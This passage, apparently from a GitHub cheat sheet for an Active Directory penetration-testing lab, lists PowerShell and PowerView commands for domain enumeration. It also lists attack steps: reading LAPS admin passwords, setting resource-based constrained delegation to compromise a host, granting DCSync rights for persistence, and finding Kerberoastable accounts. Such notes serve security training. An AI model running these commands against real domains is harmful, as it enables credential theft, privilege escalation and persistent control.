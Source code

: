 `Get-ADComputer -Identity us-mailmgmt -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd`
- Enumerate gMSAs
`Get-ADServiceAccount -Filter *`
- Enumerate the Principals that can read the gMSA's password blob
`Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword`
- Find Domain Computers with KUD enabled
`Get-ADComputer -Filter {TrustedForDelegation -eq $True}`
- Find Domain Computers with KCD enabled
`Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo`
- Find Domain Computers with KCD enabled in another Domain
`Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local`
- Set RBCD for a domain machine account that we own to the target computer that we want to compromise and we have `GenericWrite` access to.
```powershell
$comp = 'student1$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comp -Verbose
```
- Add Replication permissions to a Domain User as a persistence method
`Set-ADACL -DistinguishedName 'DC=us,DC=techcorp,DC=local' -SamAccountName studentuserx -GUIDRight DCSync -Verbose`
- Find the machine where Azure AD Connect is installed.
`Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl`
- Discover Inter-Forest/Inter-Domain Kerberoatable accounts.
`Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}`
- Find Domain Groups with groups with `SID>1000` in another Domain (useful to bypass partial SIDFiltering)
`Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server euvendor.local`
- Find FSPs in another Domain
`Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local`
- Find out which group a FSP is a member of on another Domain
`Get-ADGroup -Filter * -Properties Member -Server bastion.local | ?{$_.Member -match 'S-1-5-21-2781415573-3701854478-2406986946-500'}`

#### AD Enumeration - PowerView
- Import PowerView
`Import-Module C:\AD\Tools\PowerView.ps1`
- List only the external trusts
`Get-ForestDomain -Verbose | Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'}`
- Find Trusts of another Forest
`Get-ForestTrust -Forest eu.local`
- Find Trusts of another Domain
`Get-DomainTrust -Domain eu.local`
- Find Foreign Group Members in another domain (members of Domain Groups in the target domain that are not Domain Accounts in the target domain)
`Find-ForeignGroup –Verbose -Domain eu.local`
- Resolve Object SID of an FSP in another Domain
`Get-DomainUser -Domain dbvendor.local | ?{$_.ObjectSid -eq 'S-1-5-21-569087967-1859921580-1949641513-4101'}`
- Enumerate Restricted Groups from GPO
`Get-DomainGPOLocalGroup`
- Members of Domain Group
`Get-DomainGroupMember -Identity machineadmins`
- List all the OUs
`Get-DomainOU`
- List all the computers in an OU
`(Get-DomainOU -Identity Students).distinguishedname | %{Get-DomainComputer -SearchBase $_} | select name`
- List all the GPOs